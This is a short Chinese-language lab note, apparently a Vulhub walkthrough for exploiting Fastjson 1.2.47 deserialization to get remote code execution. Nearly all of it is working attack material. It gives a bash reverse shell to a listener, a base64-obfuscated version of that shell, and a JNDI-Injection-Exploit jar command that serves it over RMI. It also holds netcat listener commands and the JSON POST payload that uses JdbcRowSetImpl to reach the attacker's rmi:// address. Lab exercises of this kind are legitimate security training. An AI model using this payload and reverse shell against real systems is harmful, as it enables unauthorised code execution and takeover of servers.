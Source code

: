 # vulhub:

找到fastjson1.2.47rce

```sh
docker-compose up -d
nc -lvp 9443
```



# attacker

反弹shell

```sh
bash -i >& /dev/tcp/192.168.211.129/9443 0>&1
```

加密

```sh
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xMjkvOTQ0MyAwPiYx}|{base64,-d}|{bash,-i}
```

最后的ip是apache服务器的，172.26.39.196的wls2启动apache命令`/usr/local/apache-tomcat-8.5.69/bin# ./startup.sh `

Windows访问WSL2子系统的文件夹，在文件资源管理器输入`\\wsl$`

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xMjkvOTQ0MyAwPiYx}|{base64,-d}|{bash,-i}" -A "172.26.39.196"
```

起监听

```bash
nc -lvp 9443
```

# post:

Content-Type:application/json

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://172.26.39.196:1099/mmwktn",
        "autoCommit":true
    }
}

其中dataSourceName是JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar产生的jdk1.8的rmi地址
